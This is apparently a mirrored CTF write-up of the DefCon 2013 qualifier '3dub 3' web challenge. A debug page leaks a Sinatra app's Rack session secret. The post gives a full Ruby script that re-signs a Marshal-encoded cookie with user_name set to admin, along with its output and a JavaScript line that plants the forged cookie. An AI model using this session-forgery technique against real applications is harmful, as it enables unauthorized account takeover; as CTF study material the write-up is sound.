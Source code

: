 ```yaml
---
layout: post
title: "DefCon CTF Qualifier 2013 3dub 3 Write Up"
date: 2013-06-28 12:00:00
categroies: ctf web
comments: true
---
```


mirror of [http://www.blue-lotus.net/def-con-ctf-qualifier-2013-3dub-3-writeup/](http://www.blue-lotus.net/def-con-ctf-qualifier-2013-3dub-3-writeup/)

First of all, we got a `secrets` link and `log in or create user` form. When we create and login, the website redirect us to the 'secrets' page like this

> Secrets
> 
> name owner actions
> 
> key admin [show](#)
> 
> nothing asdf [show](#)
> 
> [new secret](#)

we've got some links to see secrets owned by other users, include the `admin`, or easily add a new secret ourselves.

Having a try to open the admin's secret, we got a 500 Error Page with some error stack, which powered by the Ruby framework `Sinatra`.

From the very first sight of the page, it said `unauthorized` as the error message and a piece of source code was provided

``` ruby
    end

    redirect '/secrets'
end

get '/secrets/:id' do
    s = SECRETS[params[:id].to_i]
raise "unauthorized" if session[:user_name] != s.username

haml :secret, locals: {secret: s}
end

helpers do
    def current_user
        return nil unless session[:user_name]
```

It meant that I'm not the secret's holder. then have a look at the whole page, and you would find some environment variable in the `Rack ENV` section, partly like

* rack.session

``` ruby
{"session_id"=>"353c66525a01fa0b3856cb9f34aae2aa9a36ad4cde02daea0ccfbaf566ddbb5a", "tracking"=>{"HTTP_USER_AGENT"=>"9c1f7f9f1bf9d50ec9176e6a805368e30e9d48bb", "HTTP_ACCEPT_ENCODING"=>"ed2b3ca90a4e723402367a1d17c8b28392842398", "HTTP_ACCEPT_LANGUAGE"=>"ca4aee0e81214addc5fb12877cf9e5c8b8beb7d6"}, "csrf"=>"5f6d85b7e1b0a48c8a87e42803ac166cf7d60121afd24ba937bf65fa4f8989c6", "user_name"=>"test"}
```

* rack.session.options

``` ruby
{:path=>"/", :domain=>nil, :expire_after=>nil, :secure=>false, :httponly=>true, :defer=>false, :renew=>false, :sidbits=>128, :secure_random=>SecureRandom, :secret=>"wroashsoxDiculReejLykUssyifabEdGhovHabno", :coder=>#}
```

* rack.session.unpacked_cookie_data

``` ruby
{"session_id"=>"353c66525a01fa0b3856cb9f34aae2aa9a36ad4cde02daea0ccfbaf566ddbb5a", "tracking"=>{"HTTP_USER_AGENT"=>"9c1f7f9f1bf9d50ec9176e6a805368e30e9d48bb", "HTTP_ACCEPT_ENCODING"=>"ed2b3ca90a4e723402367a1d17c8b28392842398", "HTTP_ACCEPT_LANGUAGE"=>"ca4aee0e81214addc5fb12877cf9e5c8b8beb7d6"}, "csrf"=>"5f6d85b7e1b0a48c8a87e42803ac166cf7d60121afd24ba937bf65fa4f8989c6", "user_name"=>"test"}
```

* rack.request.cookie_hash

``` ruby
{"rack.session"=>"BAh7CUkiD3Nlc3Npb25faWQGOgZFRiJFMzUzYzY2NTI1YTAxZmEwYjM4NTZj\nYjlmMzRhYWUyYWE5YTM2YWQ0Y2RlMDJkYWVhMGNjZmJhZjU2NmRkYmI1YUki\nDXRyYWNraW5nBjsARnsISSIUSFRUUF9VU0VSX0FHRU5UBjsARiItOWMxZjdm\nOWYxYmY5ZDUwZWM5MTc2ZTZhODA1MzY4ZTMwZTlkNDhiYkkiGUhUVFBfQUND\nRVBUX0VOQ09ESU5HBjsARiItZWQyYjNjYTkwYTRlNzIzNDAyMzY3YTFkMTdj\nOGIyODM5Mjg0MjM5OEkiGUhUVFBfQUNDRVBUX0xBTkdVQUdFBjsARiItY2E0\nYWVlMGU4MTIxNGFkZGM1ZmIxMjg3N2NmOWU1YzhiOGJlYjdkNkkiCWNzcmYG\nOwBGIkU1ZjZkODViN2UxYjBhNDhjOGE4N2U0MjgwM2FjMTY2Y2Y3ZDYwMTIx\nYWZkMjRiYTkzN2JmNjVmYTRmODk4OWM2SSIOdXNlcl9uYW1lBjsARkkiCXRl\nc3QGOwBU\n--d637305e23d6693f3ebe276b292293c7ff0b72e6"}
```

we've got some message:

the cookie `rack.session` is some way encoded of `rack.session.unpacked_cookie_data`, which is totally the same as env variable rack.session, and the coder mybe `Rack::Session::Cookie::Base64::Marshal`, secret (if any) maybe `wroashsoxDiculReejLykUssyifabEdGhovHabno`

By seeking the source code of rack, we found this [https://github.com/rack/](https://github.com/rack/rack/blob/master/lib/rack/session/cookie.rb)

``` ruby
    @secrets = options.values_at(:secret, :_old_secret).compact
    # some code else
    session_data = coder.encode(session)
    if @secrets.first
        session_data << "--#{generate_hmac(session_data, @secrets.first)}"
    end 
    # some code else
    def generate_hmac(data, secret)
        OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)
    end
```

Once the server received a request, it would confirm the validation of the cookie, reset the session if digest mismatch

``` ruby
if @secrets.size > 0 && session_data
    session_data, digest = session_data.split("--")
    session_data = nil unless digest_match?(session_data, digest)
end
```

Meanwhile, we knew the whole process of the session checking. thus, I've wrote a ruby script to figure out this stuff with this way

* `unpack(decode)` the cookie to origin session data
* modify session_data.user_name to `admin`
* `repack(encode)` the session data to cookie string format
* calculate a new digest of the session data then build the cookie

### code

``` ruby
#!/usr/bin/ruby
#Author: xelz@blue-lotus

require 'openssl'

# part of rack/lib/rack/session/cookie.rb
class Base64
    def encode(str)
        [str].pack('m')
    end

    def decode(str)
        str.unpack('m').first
    end

    # Encode session cookies as Marshaled Base64 data
    class Marshal < Base64
        def encode(str)
            super(::Marshal.dump(str))
        end

        def decode(str)
            return unless str
            ::Marshal.load(super(str)) rescue nil
        end
    end
end

def generate_hmac(data, secret)
    OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)
end

exit() unless ARGV[0]

data = ARGV[0].split('--')[0]
# puts 'data is:'
# puts data, "\n"

coder = Base64::Marshal.new
data = coder.decode(data)
data['user_name'] = "admin"
data = coder.encode(data)
# puts 'modified data is:'
# puts data, "\n"
data = data

secret = 'wroashsoxDiculReejLykUssyifabEdGhovHabno'
# puts 'new digest string is:'
digest = generate_hmac(data, secret)
# puts digest, "\n"

puts 'cookie is'
cookie = data.gsub("\n", "%0A") + '--' + digest
puts cookie
```

run the script like this:

``` bash
xelz@blue-lotus:defconctf$echo -en 'BAh7CUkiD3Nlc3Npb25faWQGOgZFRiJFMzUzYzY2NTI1YTAxZmEwYjM4NTZj\nYjlmMzRhYWUyYWE5YTM2YWQ0Y2RlMDJkYWVhMGNjZmJhZjU2NmRkYmI1YUki\nDXRyYWNraW5nBjsARnsISSIUSFRUUF9VU0VSX0FHRU5UBjsARiItOWMxZjdm\nOWYxYmY5ZDUwZWM5MTc2ZTZhODA1MzY4ZTMwZTlkNDhiYkkiGUhUVFBfQUND\nRVBUX0VOQ09ESU5HBjsARiItZWQyYjNjYTkwYTRlNzIzNDAyMzY3YTFkMTdj\nOGIyODM5Mjg0MjM5OEkiGUhUVFBfQUNDRVBUX0xBTkdVQUdFBjsARiItY2E0\nYWVlMGU4MTIxNGFkZGM1ZmIxMjg3N2NmOWU1YzhiOGJlYjdkNkkiCWNzcmYG\nOwBGIkU1ZjZkODViN2UxYjBhNDhjOGE4N2U0MjgwM2FjMTY2Y2Y3ZDYwMTIx\nYWZkMjRiYTkzN2JmNjVmYTRmODk4OWM2SSIOdXNlcl9uYW1lBjsARkkiCXRl\nc3QGOwBU\n' | awk '{print $1"\\"}' | xargs ./hypeman.rb
cookie is
BAh7CSINdHJhY2tpbmd7CCIZSFRUUF9BQ0NFUFRfRU5DT0RJTkciLWVkMmIz%0AY2E5MGE0ZTcyMzQwMjM2N2ExZDE3YzhiMjgzOTI4NDIzOTgiFEhUVFBfVVNF%0AUl9BR0VOVCItOWMxZjdmOWYxYmY5ZDUwZWM5MTc2ZTZhODA1MzY4ZTMwZTlk%0ANDhiYiIZSFRUUF9BQ0NFUFRfTEFOR1VBR0UiLWNhNGFlZTBlODEyMTRhZGRj%0ANWZiMTI4NzdjZjllNWM4YjhiZWI3ZDYiCWNzcmYiRTVmNmQ4NWI3ZTFiMGE0%0AOGM4YTg3ZTQyODAzYWMxNjZjZjdkNjAxMjFhZmQyNGJhOTM3YmY2NWZhNGY4%0AOTg5YzYiD3Nlc3Npb25faWQiRTM1M2M2NjUyNWEwMWZhMGIzODU2Y2I5ZjM0%0AYWFlMmFhOWEzNmFkNGNkZTAyZGFlYTBjY2ZiYWY1NjZkZGJiNWEiDnVzZXJf%0AbmFtZSIKYWRtaW4=%0A--4bd0a545e155460f804aff9df3e80e20fdffa07f
```

then modify the cookie with the new value, using any tool you like such as Firebug(for Firefox), WebInspector(for Webkit Based Browser), Fiddler(under IE7), Burpsuite(Java Based for any platform), I'd like to use the Javascript Console in Chrome:

``` javascript
document.cookie='rack.session=xxx;'
```

refresh the page, and enjoy :)

### key

> watch out for this Etdeksogav
